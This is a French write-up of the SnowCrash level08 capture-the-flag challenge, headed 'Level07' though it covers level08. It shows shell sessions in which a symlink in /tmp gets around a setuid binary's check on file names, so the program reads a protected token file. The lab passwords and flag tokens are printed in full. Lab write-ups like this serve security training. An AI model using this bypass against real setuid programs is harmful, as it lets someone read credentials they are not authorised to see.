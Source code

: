 # Level07

Une fois connecté avec le username:motdepasse level08:fiumuikeil55xe9cu4dood66h (obtenu dans le flag précédent), nous arrivons sur le home de l'utilisateur level08.  
Nous y trouvons un fichier et un exécutable.  
Effectuons quelques tests :  
```sh
level08@SnowCrash:~$ ls
level08  token
level08@SnowCrash:~$ ls -l
total 16
-rwsr-s---+ 1 flag08 level08 8617 Mar  5  2016 level08
-rw-------  1 flag08 flag08    26 Mar  5  2016 token
level08@SnowCrash:~$ ./level08
./level08 [file to read]
level08@SnowCrash:~$ touch /tmp/test
level08@SnowCrash:~$ ./level08 /tmp/test
level08@SnowCrash:~$ echo "hello" > /tmp/test
level08@SnowCrash:~$ ./level08 /tmp/test
hello
```

Nous pouvons voir que l'exécutable prend en paramétre un fichier et le lis, pourtant il ne marche pas avec `token`.  
Du coté de `strings level08` nous avons :  
```
%s [file to read]
token
You may not access '%s'
Unable to open %s
Unable to read fd %d
```
Nous pouvons supposer que l'exécutable ne lis pas le fichier si il porte le nom `token`.
```sh
level08@SnowCrash:~$ touch /tmp/token
level08@SnowCrash:~$ ./level08 /tmp/token
You may not access '/tmp/token'
```
Effectivement les fichers nommé "token" ne sont pas lu.  
Nous allons faire un lien symbolique sur le fichier token afin qu'il puisse être lu par l'exécutable :  
```sh
level08@SnowCrash:~$ ln -s ~/token /tmp/flag
level08@SnowCrash:~$ ./level08 /tmp/flag
quif5eloekouj29ke0vouxean
level08@SnowCrash:~$ su flag08
Password:
Don't forget to launch getflag !
flag08@SnowCrash:~$ getflag
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
```
